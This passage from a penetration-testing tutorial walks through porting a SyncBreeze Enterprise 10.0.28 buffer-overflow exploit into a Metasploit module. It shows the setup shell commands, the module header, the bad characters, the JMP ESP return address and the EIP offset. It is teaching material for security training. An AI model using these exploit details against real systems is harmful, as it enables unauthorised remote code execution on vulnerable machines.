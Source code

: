 Even the most unskilled programmer can build a custom MSF module. The Ruby language and exploit structure are clear, straightforward, and very similar to Python. To show how this works, we will port our SyncBreeze Python exploit to the Metasploit format, using an existing exploit in the framework as a template and copying it to the established folder structure under the home directory of the root user.

```
┌──(kali㉿kali)-[~]
└─$ sudo mkdir -p /root/.msf4/modules/exploits/windows/http
[sudo] password for kali: 
                                                                                                                                                                
┌──(kali㉿kali)-[~]
└─$ sudo cp /usr/share/metasploit-framework/modules/exploits/windows/http/disk_pulse_enterprise_get.rb /root/.msf4/modules/exploits/windows/http/syncbreeze.rb
                                                                                                                                                                
┌──(kali㉿kali)-[~]
└─$ sudo nano /root/.msf4/modules/exploits/windows/http/syncbreeze.rb
```

> Listing 60 - Creating a template for the exploit

To begin, we will update the header information, including the name of the module, its description, author, and external references.

```
'Name'           => 'SyncBreeze Enterprise Buffer Overflow',
'Description'    => %q(
  This module ports our python exploit of SyncBreeze Enterprise 10.0.28 to MSF.
),
'License'        => MSF_LICENSE,
'Author'         => [ 'Offensive Security', 'offsec' ],
'References'     =>
  [
    [ 'EDB', '42886' ]
  ],
```

> Listing 61 - Metasploit module header information

In the next section, we will select the default options. In this case, we will set _EXITFUNC_ to "thread" and specify the bad characters we found, which are \x00\x0a\x0d\x25\x26\x2b\x3d. Finally, in the _Targets_ section, we will specify the version of SyncBreeze along with the address of the JMP ESP instruction and the offset used to overwrite EIP.

```
'DefaultOptions' =>
  {
    'EXITFUNC' => 'thread'
  },
'Platform'       => 'win',
'Payload'        =>
  {
    'BadChars' => "\x00\x0a\x0d\x25\x26\x2b\x3d",
    'Space'      => 500
  },
'Targets'        =>
  [
    [ 'SyncBreeze Enterprise 10.0.28',
      {
        'Ret' => 0x10090c83, # JMP ESP -- libspp.dll
        'Offset' => 780
      }]
  ],
```
